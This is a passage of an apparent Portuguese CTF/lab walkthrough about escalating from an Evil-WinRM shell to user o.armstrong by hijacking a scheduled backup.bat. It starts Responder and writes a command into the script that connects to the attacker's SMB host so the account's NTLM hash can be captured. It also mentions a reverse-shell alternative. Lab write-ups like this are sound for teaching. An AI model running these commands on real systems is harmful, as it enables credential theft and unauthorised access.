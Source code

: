 ```
-a----        5/30/2023   1:32 AM             92 backup.bat.bkp
-a----        5/30/2023   1:35 AM            136 notes.txt


*Evil-WinRM* PS C:\Scripts> type notes.txt
Things to check:


1. Check on the IT Website hosted on the Linux Server. Is it vulnerable?
2. Enforce the password policy on everyone!
```

Hmmm, se é o usuário **`o.armstrong`** que está executando esse arquivo, isso significa que podemos obter uma shell com os **privilégios dele**, bastando colocar um payload no `backup.bat` e aguardar ou forçar a execução.

# 4. Conhecendo um novo usuário: `o.armstrong`

Existem duas formas de obter uma shell com o usuário `o.armstrong`. A primeira é rodar um **servidor SMB** e forçar o script a fazer uma requisição a esse servidor, capturando assim a **hash NTLM** da conta dele para posterior quebra offline.

A segunda forma é criar um **executável malicioso** que, ao ser executado pelo script, inicie uma **reverse shell**, concedendo acesso direto à sessão do `o.armstrong`.

Vamos explorar ambos os contextos para demonstrar como essas abordagens funcionam na prática.
## 4.1 Método 1: Obtendo a Hash do Usuário

Primeiro inicie o Responder
`sudo python3 Responder.py -I tun0`

```
*Evil-WinRM* PS C:\Scripts> Set-Content -Path "backup.bat" -Value "@echo off`r`nnet use \\10.11.85.218\share >nul 2>&1" -Encoding UTF8


*Evil-WinRM* PS C:\Scripts> Start-Process "backup.bat"
```

![](attachment/01afffc3a131cf280c37dbfe6bec7b42.png)
